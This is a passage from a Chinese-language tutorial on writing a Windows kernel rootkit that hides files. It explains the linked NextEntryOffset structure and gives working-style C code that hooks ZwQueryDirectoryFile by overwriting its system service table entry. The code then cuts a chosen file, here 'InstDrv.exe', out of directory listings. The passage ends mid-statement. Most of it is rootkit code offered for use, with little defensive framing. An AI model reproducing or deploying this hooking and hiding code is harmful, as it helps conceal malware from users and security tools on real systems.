 ```c
    WCHAR       FileName[1];//指定文件名字符串的第一个字符
} FILE_FULL_DIR_INFORMATION, *PFILE_FULL_DIR_INFORMATION;
```


与上面的`_FILE_DIRECTORY_INFORMATION`相比只是多了`EaSize`这个属性。其他的结构体也差不多，无非就是多多少少几个属性罢了。详情可以去MSDN上查看。 注意`NextEntryOffset`这个字段，它指向的是下一个文件信息结构体的地址。是不是类似链表？文件隐藏的关键就在于这个链表，将存储要隐藏文件信息的块从这个链表上剔除，系统在读取的时候就会跳过这个文件，于是就实现了隐藏的目的。**核心思想：敲掉链表上的元素** 知道了原理，接下来就看下关键代码吧。

关键实现
----

* RootKit实现文件隐藏的首要目标是替换系统内置的查询函数。首先我们要声明一个用于替换的函数`NewZwQueryDirectoryFile`，参数类型、个数和顺序与内置函数一样

  ```c
  NTSTATUS NTAPI NewZwQueryDirectoryFile(//返回有关给定文件句柄指定的目录中的文件的各种信息
      IN HANDLE FileHandle,//文件句柄，由NtCreateFile或NtOpenFile返回
      IN HANDLE Event OPTIONAL,//调用者创建的事件的可选句柄，可选参数
      IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,//与APC相关，可选参数，NUll
      IN PVOID ApcContext OPTIONAL,//与APC相关
      OUT PIO_STATUS_BLOCK IoStatusBlock,//指向IO_STATUS_BLOCK结构的指针，接收最终完成状态和有关操作的信息
      OUT PVOID FileInformation,//指向缓冲区的指针，该缓冲区接收有关文件的所需信息
      IN ULONG Length,//FileInformation指向的缓冲区大小（以字节为单位）
      IN FILE_INFORMATION_CLASS FileInformationClass,//包含文件信息的结构体
      IN BOOLEAN ReturnSingleEntry,//如果只返回一个条目，则设置为TRUE，否则为FALSE
      IN PUNICODE_STRING FileMask OPTIONAL,//指向调用者分配的Unicode字符串的可选指针，该字符串包含FileHandle指定的目录中的文件名（或多个文件，如果使用通配符）。 此参数是可选的，可以为NULL。
      IN BOOLEAN RestartScan );//如果要从目录中的第一个条目开始扫描，则设置为TRUE。 如果从先前恢复扫描，则设置为FALSE。
  ```

* 在驱动加载函数中修改系统函数表的地址，将内置函数的调用转化为对自定函数的调用

  ```c
  OldZwQueryDirectoryFile = (ZWQUERYDIRECTORYFILE) SYSTEMSERVICE( ZwQueryDirectoryFile ); /* 将旧函数地址值保存备份 */
  (ZWQUERYDIRECTORYFILE) SYSTEMSERVICE( ZwQueryDirectoryFile ) = NewZwQueryDirectoryFile; /* 将旧函数地址值改变为我们的函数地址入口值 */
  ```

* 执行自定义函数阶段，首先执行内置的查询函数获取信息，然后对信息进行处理，提取出关键的属性

  ```c
  PVOID   p       = FileInformation;//获取文件信息
  pLastOne = GetNextEntryOffset( p, FileInformationClass );//获取下一个文件偏移
  ```

  

* 对文件名进行比对，类似对链表的操作将结点剔除

  ```c
  if ( RtlCompareMemory( GetEntryFileName( p, FileInformationClass ), L"InstDrv.exe", 16 ) == 16 ) // RootkitFile改为自己想要隐藏的文件名和目录名 
  {
      KdPrint( ("[-]Hide...../n") );
      KdPrint( ("[-]现在在目录下看不到文件了/n") );
      if ( pLastOne == 0 )//如果没有下一个文件
      {
          if ( p == FileInformation )//如果当前目录只有唯一文件
              ntStatus = STATUS_NO_MORE_FILES;//设置为没有更多文件
          else
              SetNextEntryOffset( pLast, FileInformationClass, 0 );//将前一文件的指向下一文件的指针置空
          break;
      }
      else  {//当前文件后有文件
          int iPos    = ( (ULONG) p) - (ULONG) FileInformation;//获取相对偏移量
          int iLeft   = (DWORD) Length - iPos - pLastOne;
          RtlCopyMemory( p, (PVOID) ( (char *) p + pLastOne), (DWORD) iLeft );//目的地址，源地址，长度
          KdPrint( ("iPos:%ld/tLength:%ld/tiLeft:%ld/t,NextOffset:%ld/tpLastOne:%ld/tCurrent:0x%x/n",
  ```